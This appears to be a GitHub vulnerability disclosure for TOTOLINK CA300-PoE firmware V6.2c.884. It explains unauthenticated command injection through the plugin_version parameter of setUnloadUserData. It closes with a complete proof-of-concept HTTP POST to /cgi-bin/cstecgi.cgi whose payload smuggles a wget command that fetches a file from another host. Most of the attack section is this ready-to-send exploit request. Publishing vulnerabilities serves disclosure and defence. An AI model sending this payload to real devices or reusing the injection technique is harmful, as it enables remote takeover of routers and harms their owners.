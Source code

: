 ## RCE-TOTOLINK CA300-PoE_Firmware  V6.2c.884
## Firmware

https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html
![image](https://github.com/user-attachments/assets/1f19d9d6-bbe6-409f-8085-a650f1d3f616)
## Description
```
TOTOLINK CA300-PoE_Firmware  V6.2c.884 was found to contain unauthorized remote command execution via the plugin_version parameter.
The plugin_version in the setUnloadUserData function in the update.so file is user-controllable. Without any filtering, it is spliced into the variable v8, and finally passed into cs_cmd, causing the command to be executed.
```

![image](https://github.com/user-attachments/assets/6b9416f3-f2dc-42f7-9a01-b0506bbc286b)
![94929ab1de737d7e19968cd6acdbdb6](https://github.com/user-attachments/assets/5c0ea937-4248-483c-b127-ac30462fea52)


![image](https://github.com/user-attachments/assets/4bb5278b-cb59-467b-bf9b-6116a30c0f02)
## POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.0.254

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 107

Origin: http://192.168.0.254

Connection: keep-alive

Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260



{"topicurl" :"setting/setUnloadUserData",

"plugin_version" : "a;wget http://192.168.0.253:8000/123.txt;a"}
```
